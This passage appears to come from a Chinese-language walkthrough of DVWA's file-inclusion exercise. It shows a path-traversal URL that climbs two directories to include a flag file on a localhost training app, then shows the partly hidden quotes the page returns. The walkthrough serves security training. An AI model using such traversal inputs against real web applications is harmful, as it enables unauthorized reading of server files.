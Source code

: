 ![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2035.png)

回到題目，如果從 [`http://localhost:8086/vulnerabilities/fi/`](http://localhost:8086/vulnerabilities/fi/) 要 include 該檔案的話，那就要往前推兩層，也就是 `../../hackable/flags/fi.php`

```html
localhost:8086/vulnerabilities/fi/?page=../../hackable/flags/fi.php
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%2036.png)

頁面只出現 3 個答案，有 2 個被隱藏起來了

```html
1.) Bond. James Bond 2.) My name is Sherlock Holmes. It is my business to know what other people don't know.

--LINE HIDDEN ;)--

4.) The pool on the roof must have a leak.
```
